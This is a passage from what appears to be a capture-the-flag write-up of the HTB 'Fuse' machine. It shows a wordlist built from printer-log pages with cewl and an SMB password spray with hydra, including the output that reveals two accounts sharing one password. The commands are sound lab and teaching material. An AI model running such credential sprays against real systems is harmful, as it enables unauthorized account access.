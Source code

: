 ## Shell as svc-print

### Spray for Password

At this point, I don’t have a lot of options without credentials. I do have a handful of user names from the these printer logs. The logs are also potentially a good source of target specific words that might be used as a password. I’ll use them to build a wordlist and try to spray that against SMB to see if I can get anything.

#### Build Wordlist

I’ll create a wordlist from the webpage using `cewl`. The `--with-numbers` flag is a good one to use, especially here:

```

root@kali# cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers > wordlist

```

Because I didn’t specify a `--depth`, it will go two links away from the root page, which should be enough to get everything I want.

#### Brute

Now I’ll check it against the server. Normally I would use `crackmapexec`. When I originally solved, I was traveling and my laptop had an old VM on which `crackmapexec` was breaking, and rather than spend time fixing it, I decided I’d rebuild later. In the mean time, I used `hydra`, and it found two matches:

```

root@kali# hydra -L users -P wordlist 10.10.10.193 smb
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-15 10:22:33
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 765 login tries (l:5/p:153), ~765 tries per task
[DATA] attacking smb://10.10.10.193:445/
[445][smb] host: 10.10.10.193   login: tlavel   password: Fabricorp01
[445][smb] host: 10.10.10.193   login: bhult   password: Fabricorp01
[STATUS] 738.00 tries/min, 738 tries in 00:01h, 27 to do in 00:01h, 1 active
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-15 10:23:36

```

It’s a bit weird that it found success for two different users with the same password. My guess is that that is to help with gameplay, especially on free HTB servers in the steps that come next.

### Login Failures

Now I try to check for shares with `smbmap`, but it fails:
